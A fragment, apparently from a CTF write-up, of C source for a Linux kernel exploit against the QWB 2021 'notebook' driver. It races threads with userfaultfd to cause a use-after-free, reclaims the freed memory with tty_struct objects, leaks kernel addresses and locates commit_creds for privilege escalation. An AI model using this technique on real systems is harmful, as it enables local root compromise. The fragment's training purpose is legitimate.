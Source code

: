 ```c
}
void gift(size_t name){
    X n132;
    n132.idx = 1;
    n132.buf = name;
    n132.size = 1;
    ioctl(fp,0x64,&n132);
}
void add_thread(size_t idx)
{
    add(idx,0x60,hit);
}
void edit_thread(size_t idx)
{
    edit(idx,0,hit);
}
int main()
{

    char buf[0x1000]={0};
    hit = mmap(NULL,0x1000,0x6,0x22,-1,0);
    RegisterUserfault(hit,userfaultfd_leak_handler);

    fp = open("/dev/notebook",2);
    if(fp<0)
        Panic("OPEN");
    add(0,0x60,"n132");
    add(1,0x60,"n132");
    
    edit(0,0x2e0,"n132");
    edit(1,0x500,"n132");

    pthread_t add_t,edit_t;
    pthread_create(&add_t,NULL,edit_thread,0);
    sleep(0.5);
    pthread_create(&edit_t,NULL,add_thread,0);
    sleep(0.5);
    int mx = -1;
    for(int i =0;i<0x20;i++)
    {
        mx = open("/dev/ptmx",O_RDWR|O_NOCTTY);
        if(mx<0)
            Panic("PTMX");
        read(fp,buf,0);
        if(*(size_t *)buf == TTYMAGIC)
            break;//UAF
    }
    if(*(size_t *)buf != TTYMAGIC)
        Panic("Fail to UAF");
    
    
    char gift_buf[0x100];
    gift(gift_buf);
    size_t note_addr = u64(gift_buf+0x10);

    read(fp,buf,0);
    size_t leak = u64(buf+0x18);
    // Relocate Functions
    size_t work_for_cpu = leak+(0xffffffff8109eb90-0xffffffff81e8e440);
    size_t commit_cred  = leak+(0xffffffff810a9b40-0xffffffff81e8e440);
    size_t prepare_cred = leak+(0xffffffff810a9ef0-0xffffffff81e8e440);

    size_t * fake_tty[0x100] = {0};
```

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/userfaultfd/
[3]: https://github.com/n132/attachment/tree/main/QWB_2021_Qual/notebook